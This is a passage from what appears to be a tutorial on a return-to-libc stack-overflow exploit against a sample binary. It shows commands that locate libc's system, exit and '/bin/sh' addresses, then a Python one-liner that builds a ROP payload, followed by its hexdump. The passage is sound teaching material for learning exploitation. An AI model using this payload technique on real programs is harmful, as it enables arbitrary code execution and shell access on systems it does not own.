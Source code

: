 > In a previous section we found the function addresses by using gdb's `print` (`p`) command, while the string (which is in libc) was found with gdb's `find` command.

One way to accomplish this is to first find the base address of libc:

```bash
$ ldd r2l2
...
        libc.so.6 => /lib64/libc.so.6 (0x00007ffff7de9000)
...
```

And then find the offset of the string and functions:

```
$ strings -tx /lib64/libc-2.28.so  | grep bin/sh
 186519 /bin/sh
$ readelf -s /lib64/libc-2.28.so | grep system@
...
1418: 0000000000045c30    45 FUNC    WEAK   DEFAULT   14 system@@GLIBC_2.2.5
...
$ readelf -s /lib64/libc-2.28.so | grep exit
...
135: 000000000003ae30    32 FUNC    GLOBAL DEFAULT   14 exit@@GLIBC_2.2.5
...
```

Finding the addresses is now a matter of summing the base address and the offsets:

```
system:    0x00007ffff7de9000 + 45c30  = 0x00007ffff7e2ec30
exit:      0x00007ffff7de9000 + 3ae30  = 0x00007ffff7e23e30
"/bin/sh": 0x00007ffff7de9000 + 186519 = 0x00007ffff7f6f519
```

The gadget is at 0x0000000000401203. The buffer is 0x20 (32) bytes, and the saved frame pointer is of course 8 bytes.

Now we are ready to create the exploit. Let's make a binary file that we can feed to stdin in both gdb and in the terminal:

```bash
$ python -c 'print 40 * "a" + "\x00\x00\x00\x00\x00\x40\x12\x03"[::-1] + "\x00\x00\x7f\xff\xf7\xf6\xf5\x19"[::-1] + "\x00\x00\x7f\xff\xf7\xe2\xec\x30"[::-1] + "\x00\x00\x7f\xff\xf7\xe2\x3e\x30"[::-1]' > pl.bin
$ xxd pl.bin
00000000: 6161 6161 6161 6161 6161 6161 6161 6161  aaaaaaaaaaaaaaaa
00000010: 6161 6161 6161 6161 6161 6161 6161 6161  aaaaaaaaaaaaaaaa
00000020: 6161 6161 6161 6161 0312 4000 0000 0000  aaaaaaaa..@.....
00000030: 19f5 f6f7 ff7f 0000 30ec e2f7 ff7f 0000  ........0.......
00000040: 303e e2f7 ff7f 0000 0a                   0>.......
```

> The '0x0a at the end is the newline character from Python's print.

In gdb, break at the `ret` instruction of the cp function, and run the program with the file as input:

